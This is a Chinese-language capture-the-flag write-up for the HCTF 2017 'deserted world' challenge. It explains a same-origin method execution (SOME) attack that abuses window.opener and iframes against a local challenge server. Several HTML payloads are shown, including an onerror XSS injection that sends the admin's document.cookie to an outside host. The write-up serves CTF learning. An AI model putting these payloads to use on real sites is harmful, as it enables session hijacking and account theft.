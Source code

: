 ##  writeup 

这是HCTF 2017的一个真题，主要利用some攻击
关于什么是some攻击，出题人已经讲得很清楚了，[在这里](https://lorexxar.cn/2017/11/15/hctf2017-deserted-world/)

**核心思想就是利用弹出的窗口的window.opener去操作同源的父窗口的dom对象**

### 出题人提供一种解法：

在自己的vps上创建一个1.html，内容如下：
```html
<script>
    function start_some() {
        window.open("2.html");
        location.replace("http://localhost:9999/user.php");
        //假设题目监听的是本地的  9999端口
    }
    setTimeout(start_some(), 1000);
</script>
```
然后vps上的2.html内容如下：
```html
<script>
    function attack() {
        location.replace("http://localhost:9999/edit.php?callback=RandomProfile&user=admin");
    }
    setTimeout(attack, 2000);
</script>
```

然后 设置 admin用户的email为:
```html
<img src="\" onerror=window.location.href='http://0xb.pw?cookie='%2bdocument.cookie>
```
然后发给管理员的url为`http://vps/1.html`,当管理员打开此页面的时候,就可以打管理员的cookie了。

但是这种攻击方法只可以对bot起作用，因为非用户交互的弹出窗口都会被浏览器拦截。

### 第二种

只需要一个文件的payload。

```html
<iframe src="http://localhost:9999/user.php" name=b></iframe>
<iframe name=a></iframe>

<script>
window.frames[0].open('http://localhost:9999/edit.php?callback=EditProfile','a');
setTimeout(
  function(){
    window.frames[1].location.href = 'http://localhost:9999/edit.php?callback=RandomProfile&user=admin'
  }
,1000);
</script>
```

首先在b矿建中打开 user.php，在里面window.open一个窗口到框架a中 。 这时候框架a中的页面的父窗口就是框架b中的窗口，然后把admin的信息更新给管理员。

跟前面的相同，设置 admin用户的email为:
```html
<img src="\" onerror=window.location.href='http://0xb.pw?cookie='%2bdocument.cookie>
```
把此页面的url发送给管理员。

其实我感觉payload直接写成这样都可以：

```html
<iframe src="http://localhost:9999/user.php" name=b></iframe>
<iframe name=a></iframe>

<script>
window.frames[0].open('http://localhost:9999/edit.php?callback=RandomProfile&user=admin','a');
</script>
```